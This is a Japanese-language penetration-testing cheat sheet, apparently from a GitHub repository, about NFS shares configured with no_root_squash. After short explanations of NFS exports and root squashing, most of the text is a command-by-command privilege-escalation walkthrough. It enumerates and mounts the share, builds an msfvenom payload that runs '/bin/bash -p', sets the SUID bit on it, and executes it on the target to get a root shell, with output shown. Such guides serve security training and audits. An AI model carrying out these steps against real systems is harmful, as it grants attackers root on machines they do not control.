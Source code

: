 NFS (ネットワーク ファイル システム) は、一般的な分散ファイル システムです。  
NFS 共有は /etc/exports ファイルで構成されます。   
リモート ユーザーは、共有のマウント、ファイルへのアクセス、作成、変更を行うことができます。    
デフォルトでは、作成されたファイルは、NFS サーバーに存在しない場合でも、リモート ユーザーの ID とグループ ID を (それぞれ所有者とグループとして) 継承します。   

### 便利なコマンド
NFSサーバーのエクスポートリストを表示します。
```
$ showmount -e <target>
```
類似のNmapスクリプト。
```
$ nmap –sV –script=nfs-showmount <target>
```
NFS共有をマウントする。
```
$ mount -o rw,vers=2 <target>:<share> <local_directory>
```
### Root Squashing
ルート スカッシングは、NFS が明らかな権限昇格を防ぐ方法です。リモート ユーザーが root (または uid=0) である (または主張する) 場合、NFS は代わりにユーザーを「押しつぶし」、「nogroup」グループの「nobody」ユーザーであるかのように扱います。  
この動作はデフォルトですが、無効にすることができます!   
### no_root_squash
no_root_squash は、ルート スカッシュをオフにする NFS 構成オプションです。   
書き込み可能な共有構成に含まれている場合、「root」として識別されるリモート ユーザーは、ローカルの root ユーザーとして NFS 共有上にファイルを作成できます。   
# Privilege Escalation
1. etc/exportsにno_root_squashオプションが設定されているシェアがあるかどうか、内容を確認します。
```
$ cat /etc/exports
...
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
2. NFS共有がリモートマウント可能であることを確認します。
```
$ showmount -e 192.168.1.25
Exports list on 192.168.1.25:
/tmp
```
3. ローカルマシンにマウントポイントを作成し、NFS共有の/tmpをマウントします。
```
# mkdir /tmp/nfs
# mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs
```
4. ローカルマシンのrootユーザーを使って、ペイロードを生成し、マウントした共有に保存してください。
```
# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
5. SUIDビットが設定され、誰でも実行可能なファイルであることを確認します。
```
# chmod +xs /tmp/nfs/shell.elf
```
6. ターゲットマシーンで、このファイルを実行し、ルートシェルを取得します。
```
$ /tmp/shell.elf
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
```
